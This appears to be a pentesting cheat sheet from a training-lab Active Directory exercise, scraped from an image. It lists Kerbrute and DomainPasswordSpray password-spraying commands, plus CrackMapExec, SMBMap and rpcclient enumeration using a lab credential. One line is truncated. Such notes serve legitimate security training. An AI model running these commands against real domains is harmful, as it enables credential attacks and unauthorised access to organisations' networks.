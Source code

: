     kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 /opt/jsmith.txt
    kerbrute passwordspray -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 users.txt Welcome1 | grep "VALID LOGIN"

### Password Spray from Windows

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```

#  Credentialed Enumeration - from Linux
##  CrackMapExec

#### CME - Domain User Enumeration
```shell-session
 sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```
#### CME - Domain Group Enumeration
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```
#### CME - Logged On Users
```shell-session
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```
#### Share Enumeration - Domain Controller
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```
#### Spider_plus
```shell-session
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 
```

## SMBMap
#### SMBMap To Check Access

    smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5

#### Recursive List Of All Directories

    smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Sha`

## rpcclient
```bash
rpcclient -U "" -N 172.16.5.5

rpcclient $> queryuser 0x457

rpcclient $> enumdomusers
```
## Impacket Toolkit

